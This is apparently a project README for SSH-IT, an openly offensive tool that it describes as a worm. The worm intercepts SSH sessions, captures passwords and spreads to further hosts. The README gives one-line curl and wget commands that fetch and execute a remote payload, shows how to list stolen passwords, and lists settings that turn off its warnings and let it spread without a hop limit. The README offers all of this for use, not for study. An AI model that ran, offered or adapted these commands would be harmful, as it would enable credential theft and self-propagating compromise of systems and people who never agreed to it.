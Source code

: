 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```
~/.prng/thc_ctl -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```
~/.prng/thc_ctl -r uninstall
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go bonkers and let the worm run until the Internet runs out of hosts to own:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Deploy from a self-extracting [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


